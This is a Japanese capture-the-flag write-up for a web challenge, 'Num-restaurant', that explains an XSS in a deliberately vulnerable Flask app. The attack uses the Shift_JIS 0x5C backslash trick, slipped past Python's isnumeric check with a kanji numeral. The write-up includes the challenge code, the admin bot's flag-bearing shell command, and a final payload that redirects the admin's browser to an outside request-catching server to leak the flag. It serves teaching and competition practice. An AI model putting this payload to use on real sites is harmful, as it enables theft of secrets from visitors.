


# Num-restaurant🍷

## 問題文
Adminがお腹を空かせています。  
ただ、嫌いなものがあるようです。  
[http://160.251.83.96:31415](http://160.251.83.96:31415/)  
[app.py](files/app.py)  

## 難易度
**medium**  

## 作問にあたって
5C問題問を出したかったのですが、それだけだと簡単すぎるのでpythonの`isnumeric`と組み合わせました。  
ブラウザのバグにより、文字コード判定がおかしくなることでXSSが発生する脆弱性を見つけたことがあり、それが元ネタです。  
懐かしいのもイイですよね...。  

## 解法
サイトにアクセスすると謎のメニューが表示されている。  
  
配布されたapp.pyは以下のようだった。  
```python
~~~
def sanitize_price(price):
    if not price.isnumeric():
        return "10000000"
    return price

def sanitize_meal(meal):
    if not meal.isascii():
        return "Kasumi"
    #Is it possible to block XSS?
    return "".join([c for c in meal if ord(c) > 0x1f]).replace("\\", "\\\\").replace("\"", "\\\"").replace("'", "\\'").replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("http", "num")

@app.route("/")
def num_restaurant():
    niku = random.randint(1, 1000000)
    sushi = random.randint(1, 1000000)
    yasai = random.randint(1, 1000000)
    price = request.args.get("price")
    meal = request.args.get("meal")
    if (not price) or (not meal):
        script = ''
    else:
        script = f'''<script>
var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";
alert(text);
</script>
'''
    html = f"""<!DOCTYPE html>
<html lang="ja">
<head>
<title>Num-restaurant</title>
{script}
</head>
<body>
<h1>Welcome to Num-restaurant 🔥</h1>
<a href="?price={niku}&meal=Niku"><p style="font-size:200%;">￥{niku} / Niku🍖</p></a>
<a href="?price={sushi}&meal=Sushi"><p style="font-size:200%;">￥{sushi} / Sushi🍣</p></a>
<a href="?price={yasai}&meal=Yasai"><p style="font-size:200%;">￥{yasai} / Yasai🥗</p></a>
</body>
</html>
"""
    if request.args.get("encoding") == "shift_jis":
        return Response(html, content_type='text/html; charset=shift_jis')
        #No one uses it anymore, but I implemented it because I was born in 1997 and missed it.
    else:
        return Response(html, content_type='text/html; charset=utf-8')
~~~
```
各メニューはリンクとなっていて、`price`、`meal`、`encoding`を指定できるようだ。  
サニタイズは完璧なように見え、`price`は数字、`meal`はASCIIとなっている。  
試しに`?price=1&meal=Niku`にアクセスすると`￥1Niku😋Yummy!!`とalertされた。  
`shift_jis`が怪しく、有名な5C問題XSSが狙えそうだが、サニタイズによりマルチバイト文字が利用できないように見える。  
次にflagの場所を確認すると、以下のように`/admin`よりAdminがクエリに渡しアクセスしている。  
```python
~~
        url = f'http://160.251.83.96:31415?price={urllib.parse.quote(request.form["price"])}\
&meal={urllib.parse.quote(request.form["meal"])}\
&encoding={urllib.parse.quote(request.form["encoding"])}'
        try:
            flag = os.getenv("FLAG")
            cmd = f'chromium-browser --no-sandbox --headless --disable-gpu "{url}&flag={flag}"'
            subprocess.run(cmd, shell=True, timeout=3)
        except:
            return "Admin🥰Yummy!!"
        return "Admin🤤Yucky!!"
~~~
```
アクセスするURLは指定されておりchromiumのExploitでのRCEやOSコマンドインジェクションは狙えない(はず)ため、やはりXSSするしかないようである。  
方針として5C問題を狙い、`";alert(1);//`のサニタイズ結果である`\";alert(1);//`の前方のバックスラッシュを消すことを考える。  
例として``表";alert(1);//``などが考えられる。  
ここで問題となるのが、`meal`にはマルチバイト文字を含めることができない点である。  
よくソースを観察すると`var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";`であるので、`price`にマルチバイト文字を含めても同様の結果が引き起こせそうだ。  
ただし、`price`には`isnumeric`がかかっているため、数字以外は入力できない。  
ここで以下のような`isnumeric`の気持ち悪い仕様を思い出す。  
```python
>>> "12345".isnumeric()
True
>>> "表".isnumeric()
False
>>> "百".isnumeric()
True
```
つまり漢数字が使えるようだ。  
あとは漢数字の中から5C問題に利用できるものを見つければよい。  
結果`十`が利用できることがわかる。  
これにより`price=十`、`meal=";alert(1);//`、`encoding=shift_jis`でXSSが刺さるようになる。  
`http://160.251.83.96:31415?price=十&meal=";alert(1);//&encoding=shift_jis`にアクセスすると確認できる。  
XSSが達成できたので、あとはアクセスしたURLを取得し、リクエストが受け取れるサーバに投げればよい。  
リダイレクトさせようとすると、alertなどゴミがついているのでchromiumではリダイレクトがうまく走らない(firefoxでは無視される)。  
alert関数を書き換えてやればうまく通る。  
`http`が`num`に変換されるのは、スキームを記述しなければよいだけである。  
最終的な送信クエリは以下になる。  
`price`: `十`  
`meal`: ```"-(location.href=`//[リクエストが受け取れるサーバ]?s=`+btoa(location.href));alert=function(){};//```  
`encoding`: `shift_jis`  
※`[リクエストが受け取れるサーバ]`は[https://requestbin.com/](https://requestbin.com/)などを使うとよい。  
これを`/admin`で送信してやる(encoding入力欄がhiddenなので注意)。  
サーバで受け取ったbase64されたデータをデコードし、URLでコードするとflagが得られる。  
  

## imctf{1_d0n7_w4n7_70_347_5C_4nym0r3}
